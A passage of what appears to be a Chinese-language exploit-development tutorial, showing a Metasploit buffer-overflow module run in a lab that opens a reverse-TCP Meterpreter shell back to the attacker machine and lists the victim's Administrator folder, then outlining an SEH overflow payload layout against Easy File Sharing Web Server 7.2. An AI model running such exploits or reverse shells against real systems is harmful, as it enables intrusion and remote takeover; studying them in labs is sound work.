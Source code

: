 ```
rhosts => 192.168.31.114
msf5 exploit(windows/yanhan/bof_attack) > set rport 1000
rport => 1000
msf5 exploit(windows/yanhan/bof_attack) > exploit

[*] Started reverse TCP handler on 192.168.31.84:4444
[*] Sending stage (179779 bytes) to 192.168.31.114
[*] Meterpreter session 1 opened (192.168.31.84:4444 -> 192.168.31.114:1062) at 2019-07-10 16:38:51 +0800

meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40555/r-xr-xr-x   0        dir   2019-05-14 09:54:43 +0800  Application Data
40777/rwxrwxrwx   0        dir   2019-05-14 09:54:43 +0800  Cookies
40555/r-xr-xr-x   0        dir   2019-05-14 09:54:43 +0800  Favorites
40777/rwxrwxrwx   0        dir   2019-05-14 09:54:43 +0800  Local Settings
40555/r-xr-xr-x   0        dir   2019-05-14 09:54:43 +0800  My Documents
100666/rw-rw-rw-  1048576  fil   2019-05-14 09:54:43 +0800  NTUSER.DAT
40777/rwxrwxrwx   0        dir   2019-05-14 09:54:43 +0800  NetHood
40777/rwxrwxrwx   0        dir   2019-05-14 09:54:43 +0800  PrintHood
40555/r-xr-xr-x   0        dir   2019-05-14 09:54:43 +0800  Recent
40555/r-xr-xr-x   0        dir   2019-05-14 09:54:43 +0800  SendTo
40777/rwxrwxrwx   0        dir   2019-05-14 09:54:43 +0800  Templates
100777/rwxrwxrwx  26665    fil   2019-05-28 14:59:10 +0800  bof-server.exe
100666/rw-rw-rw-  1024     fil   2019-05-14 09:54:43 +0800  ntuser.dat.LOG
100666/rw-rw-rw-  178      fil   2019-05-14 09:54:43 +0800  ntuser.ini
40777/rwxrwxrwx   0        dir   2019-05-29 10:49:26 +0800  vulnserver
40555/r-xr-xr-x   0        dir   2019-05-14 09:54:43 +0800  「开始」菜单
40777/rwxrwxrwx   0        dir   2019-05-14 09:54:43 +0800  桌面

meterpreter >

```

------------

# 0x02 基于SEH的栈溢出

> **目标程序** Easy File Sharing Web Server 7.2
>
> **漏洞点**
> 在处理请求时存在漏洞——一个恶意的请求头部（HEAD或GET）就可以引起缓冲区溢出，从而改写SEH链的地址。
>
> **利用seh**
> 填充物+nseh+ seh（pop popretn指令序列地址）+shellcode
>
> ![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562744120/11.png)
